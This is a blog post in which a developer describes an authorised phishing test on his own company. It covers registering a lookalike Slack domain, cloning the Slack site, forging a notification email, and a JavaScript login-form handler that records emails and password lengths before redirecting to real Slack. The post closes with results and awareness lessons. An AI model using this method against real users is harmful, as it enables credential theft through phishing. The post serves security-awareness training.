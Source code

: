 ```yaml
---
path: /posts/64-hacking-your-own-company
title: "Hacking your own company"
tags:
  - development
---
```


I have a confession to make. A while ago I hacked my own company.

##Motivation

You might be wondering why someone would hack his own company. A company like Subvisual has a transparent communication and processes. So, if I want to know something, all I got to do is ask.

The answer to this question is [Mr. Robot](http://www.imdb.com/title/tt4158110/?ref_=fn_al_tt_1)!
Yes, the TV show.

I’m a big fan of Mr. Robot.
For those of you who don’t know it, it’s a hacker TV series that’s very realistic. Instead of showing some random letters on a terminal they showed the viewers real techniques and exploits.

If you watched the series you certainly have noticed that our favourite hacker Elliot accomplishes some hacks by masquerading as a trustworthy entity and then simply ask for information directly to the victim.

This technique is called a phishing scam and despite being one of the most used exploits on the internet, it’s still one of the most effective.

I was skeptic that people would fall so easily on such a simple exploit so I became very curious on this. After some time I came up with a simple case study:

I wanted to create a phishing scam targeting my co-workers. The goal was to send a fake email to my whole team, containing a link to a malicious site, in order to see how many people would login on it, giving me their credentials.

If you put some thought on the matter your own team members are the perfect test subjects. You spend at least 8 hours per day with them, you know some of their habits, some of their tools and most importantly some of the sites they use and therefore some of the emails they receive. You also have the opportunity to watch first-hand how they will react when they see it.

Now you might be wondering if this is reasonable. After all getting someone’s private information might have a devastating effect on both the victim and the hacker, also worth mentioning that such action is… illegal. Considering that the victim will be sitting next to you this might not seem like a good idea after all. Also worth mentioning that my targets are experienced web developers so their defences are probably a step higher. 

How can this be accomplished in such conditions? If you stick with me a little longer I’ll care to explain.

##Preparation

My first plan was to attack the whole company at once keeping the whole thing secret and then, on a Friday Talk reveal what happened and how many people had fallen. After some days thinking on this and given the reasons above I changed the plan a bit.

The first thing I did was to ask permission and guidance to Roberto, our CEO. He received the idea surprisingly well and like me he was curious to know if our team would be able to recognise a simple phishing scam and if so, how could we improve the company security and awareness. We also shared the same concerns regarding personal information so it was decided that passwords or other relevant information would not be stored. The only thing that I would try to capture was the password length as proof that the given person had been victim of the attack.

With this set I began to prepare the hack.

After some time observing the team I noticed that most of our internal communication is done on [Slack](https://slack.com/), [Trello](https://trello.com/) and [GitHub](https://github.com/). The emails that we received are mostly notifications from these apps so I started to analyse how easily I could create a clone of those and trick my coworkers to login to it.

My weapon of choice was Slack. The main reason for this was the fact that almost all of our important communication is generated on it. Theoretically if someone received an important email saying that he/she missed an important message this person should follow the link to catch up.

Here’s an example of a normal notification email from Slack:

![Regular Slack email](https://subvisual.s3.amazonaws.com/blog/post_image/67/image-1447699776511.png)

The email itself shows the missing mention so you might think that this not an ideal situation. For an efficient phishing scam we usually need some content that requires an action, a hook that leads the victims to follow a malicious link.

For this to work I needed to change the content by inserting a partial message and a call to action button, but maintain the familiar layout and appearance.

##Building the attack

This is the geeky part but there is not much to it on this field. All we need is a simple static web page and some place to save the emails and password lengths.

I chose to host the page on [GitHub Pages](https://pages.github.com/) and to use [Parse](https://parse.com/) as my attack storage for the sake of simplicity.

Then I started searching for a domain that resembled slack.com and indeed I found one available - slaack.co.

To clone the whole slack.com site I used an app called SiteSucker. This duplicates the site directory structure and files on your machine meaning that my cloned slack would look exactly like the original even on mobile.

With this set getting the emails and passwords lengths was very easy. I just removed the code from the login form and added some lines:

```
Parse.initialize(‘xxxxxx’,’xxxxxx’);

var ScammedUser = Parse.Object.extend(‘ScammedUser’);
var scammedUser = new ScammedUser();
	
function onSubmitKey(e) {
  if (e.keyCode == 13)
    onSubmit();
}
	
function onSubmit() {
  var accountDetails = {
    email: $(‘#email’).val(),
    password: $(‘#password’).val().length
  };
			
  if (!accountDetails.email ||
      !accountDetails.password)
    return;
	
  scammedUser.save(accountDetails)
    .then(function(object) {
      console.log(‘Success’, accountDetails);
      window.location.href = realSlackLink;
    });
}
```

Finally, the fake email looked like this:

![Fake Slack email](https://subvisual.s3.amazonaws.com/blog/post_image/68/image-1447699815368.png)

##Attacking

This whole thing was online for more than 3 days, ready and waiting for the perfect opportunity. I chose to strike on a Thursday by the end of the day as people left the office. I sent the fake email. That way, as people arrived home, they would see an email notification from the team. Even better, they would see a notification from their CEO on a channel called “#secretProject” so the curiosity factor was involved.

##Results

In the end 20% of our team fell on the attack (all of them are developers). While this number might seem acceptable, it is not. On such a sensible platform like Slack, where most of our company's communication happens, a malicious attacker only needed one person to gain access to privileged information. Also worth noticing that if someone gained access to Slack this person could easily try to impersonate the victim in order to collect other information from the victim’s coworkers.

I presented this results on a Friday Talk and after some discussion I understood the rest of the people didn’t open the link only because they didn't care about Slack email notifications. I also presented some context and countermeasures about phishing attacks that helped raising the awareness for this kind of vulnerability.

The most important lessons taking from this are:

-
Nobody is safe from being victim of a phishing attack, even experienced developers can easily be victims.

-
It’s hard to identify fake communication from the platforms we use every day. We don’t pay that much attention to it so it’s only natural that our defences are lower than normal.

-
People now better understand the importance of security measures like two factor authentication.

-
It was fun and a completely different approach to this security theme; by feeling the problem people understand better that they need to create defences against such attacks.

On the end what I have to tell you is to go ahead and do the same on your company. It’s easier to construct defences with a real understanding of the problem than just trying to fight something that was not experienced by anyone.

I will try to identify and correct more weaknesses in Subvisual and I hope you will do the same at your own work place.

Happy hacking.
